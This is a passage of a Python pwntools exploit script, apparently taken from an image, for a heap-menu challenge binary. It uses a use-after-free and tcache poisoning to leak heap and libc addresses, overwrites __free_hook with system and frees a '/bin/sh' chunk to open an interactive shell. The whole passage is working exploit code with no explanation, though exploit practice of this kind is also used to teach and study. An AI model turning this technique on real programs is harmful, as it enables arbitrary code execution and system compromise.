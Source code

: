 ```python
  p.sendafter("input information", content.ljust(0x70, '\x00'))

def show(p, idx):
  p.sendlineafter("Give me your choice :", '2')
  p.sendlineafter("Give me your index : ", str(idx))

def edit(p, idx, sex, content):
  p.sendlineafter("Give me your choice :", '3')
  p.sendlineafter("Give me your index : ", str(idx))
  # debug(p, 'print system')
  p.sendafter("Are you sure change sex?", sex)
  p.sendafter("Now change information\n", content.ljust(0x70, '\x00'))

def delete(p, idx):
  p.sendlineafter("Give me your choice :", '4')
  p.sendlineafter("Give me your index : ", str(idx))

add(p, 'aaaaaaa', '0', '\x00')
add(p, 'aaaaaaa', '1', '\x00')
add(p, 'aaaaaaa', '2', '\x00')

delete(p, 0)
delete(p, 1)

show(p, 1)
p.recvuntil("\n")
heapbase = u64(p.recvuntil('\n')[:-1].ljust(8, '\x00')) - 0x250 - 0x10 - 0x20
print(hex(heapbase))
pause()

edit(p, 1, 'Y', '\x00')
delete(p, 1)

add(p, p64(heapbase + 0x10), '3', '\x00')
add(p, 'aaaaaaa', '4', '\x00')
add(p, p64(0x700000000000000), '5', '\x00')
delete(p, 3)
show(p, 3)

main_arena = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00')) - 96
libc_base = main_arena - libc.symbols['__malloc_hook'] - 0x10
print hex(libc_base)
pause()

free_hook = libc_base + libc.symbols['__free_hook']
system = libc_base + libc.symbols['system']
print hex(system)
# debug(p, 'print system')

payload = '\x00'*0x68 + p64(free_hook - 0x10)
edit(p, 5, '5', payload)
add(p, '/bin/sh\x00', '6', p64(system))
print hex(free_hook)
print hex(system)
# debug(p, 'print system\n')

delete(p, 6)
p.interactive()
```

